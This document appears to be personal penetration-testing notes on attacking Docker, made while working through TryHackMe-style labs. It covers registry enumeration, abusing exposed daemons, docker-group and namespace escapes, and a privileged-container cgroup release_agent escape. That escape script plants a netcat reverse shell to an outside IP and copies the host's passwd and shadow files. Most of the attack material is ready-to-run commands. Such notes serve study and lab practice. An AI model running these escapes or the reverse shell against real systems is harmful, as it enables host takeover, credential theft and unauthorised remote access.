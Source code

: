 #### Docker registries
A docker registry is a storage and distribution system for named Docker images. 
The registry is organized into Docker repositories, with information about the current images.
The default port is 5000.

To enumerate Docker registries, use [[docker-grabber]]
To query the Docker images:
```
curl http://IP:PORT/v2/_catalog                        // Get all active Docker images.
curl http://IP:PORT/v2/REPOSITORY/NAME/tags/list       // Get tags of an image.
curl http://IP:PORT/v2/REPOSITORY/NAME/manifests/TAG   // Get info of a tag (usually contains command history)
```

#### Reverse engineering
If you're able to query the data inside of the docker registry (see [[#Docker registries]]), `docker pull` the registry:
```c++
nano /etc/docker/daemon.json
add IP:PORT to the list
systemctl stop docker*
systemctl start docker
systemctl start docker.socket

docker info   // Check if the IP has been added to the insecure registries.
```
try dumping the docker images with [[Dive]]

#### Exposed docker daemon
If you find an exposed docker daemon (Nmap docker, with a lot of info), you can communicate with the image inside.

Example `nmap` output:
```
┌─[root@edu-virtualbox]─[.../edu/THM]
└──╼ #nmap -A -p2375 10.10.68.223
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-11 16:41 CET
Nmap scan report for 10.10.68.223
Host is up (0.044s latency).
                                                           
PORT     STATE SERVICE VERSION
2375/tcp open  docker  Docker 20.10.20 (API 1.41)
| docker-version:         
|   BuildTime: 2022-10-18T18:18:12.000000000+00:00
|   ApiVersion: 1.41                                    
|   KernelVersion: 5.15.0-1022-aws
|   Version: 20.10.20        
|   Platform:                
|     Name: Docker Engine - Community
|   GitCommit: 03df974
|   GoVersion: go1.18.7      
|   Components: 
|                       
|       Name: Engine  
|       Version: 20.10.20
|       Details:                                                                                                       
|         ApiVersion: 1.41
|         KernelVersion: 5.15.0-1022-aws
|         BuildTime: 2022-10-18T18:18:12.000000000+00:00
|         GitCommit: 03df974
|         GoVersion: go1.18.7         
|         Experimental: false
|         Arch: amd64    
|         Os: linux    
|         MinAPIVersion: 1.12
|                           
|       Name: containerd
|       Version: 1.6.8
|       Details:       
|         GitCommit: 9cd3357b7fd7218e4aec3eae239db1f68a5a6ec6                                        
|                                                                                                                                                                                                                                              |       Name: runc                               
|       Version: 1.1.4                                   
|       Details:        
|         GitCommit: v1.1.4-0-g5fd4c4d
|     
|       Name: docker-init       
|       Version: 0.19.0
|       Details:     
|         GitCommit: de40ad0
|   Arch: amd64
|   Os: linux                                                                                                          
|_  MinAPIVersion: 1.12                                                                                                

```

To confirm access, use `curl http://IP:PORT/version`
The default port is `2375`

To execute code:
```
docker -H tcp://IP:PORT ps                        // List running images
// Note: if there are no containers running, use the commands "images" to list, and "run", to run a container.
docker -H tcp://IP:PORT exec CONTAINER_ID COMMAND // Execute a command in a container 
```

#### Exposed internal docker daemon
Assuming you've got a foothold on the target system, check for the "Docker" group using `groups`
##### Initial check:
```
user@machine:~#groups
sudo docker                  // "docker" group is enabled
```
##### Exploitation
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh         // Mount the host system to the internal image
// IMPORTANT NOTE: This won't work on THM servers, or other places without access to the internet.
// To bypass this, replace the "alpine" with the ID of the box, like this:
docker images                                               // Copy the ID of any of the available images.
docker run -v /:/mnt --rm -it ANY_IMAGE_ID chroot /mnt sh   // Mount the host system to the internal image
```

##### Shared namespaces
THe shared network namespace vulnerability works because the container gets access to the host-machine's network interface. 
If you see a lot of processes when running `ps aux`  generally 20+, try this:
```
nsenter --target 1 --mount sh
```
`--target 1`  -- The targetted process (and the target namespace)
`--mount`  -- the mount namespace of the target process
`sh`  -- Execute `sh` in the namespace (kernel)

#### Capabilities
Requirement: a Docker image with `privileged` mode enabled.
The `priveleged` mode means that all capabilities have been granted to the Docker image, allowing it to bypass the Docker Engine and reach the system.
To check if the image is Privileged, use
```
capsh --print                    // If this gives lots of output, privileged mode is likely enabled.
capsh --print | grep sys_admin   // If this returns output, it is exploitable.
```

Exploitation:
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.1.167 5555 >/tmp/f" >> /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
echo "cat /etc/shadow > $host_path/output"
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

#### Writable docker socket
To get root in the docker, upload a docker binary.
Secondly, run 
```
./docker run --entrypoint /bin/bash -it --rm HOST_IMAGE_NAME
```

#### Scanning the host
The host of the docker's IP is usually 172.17.0.1
To make sure, use:
```
/sbin/ip route|awk '/default/ { print $3 }'
```
if you scan it using `nmap`, you might find something


### miscellaneous
get full tty: `script /dev/null -c bash`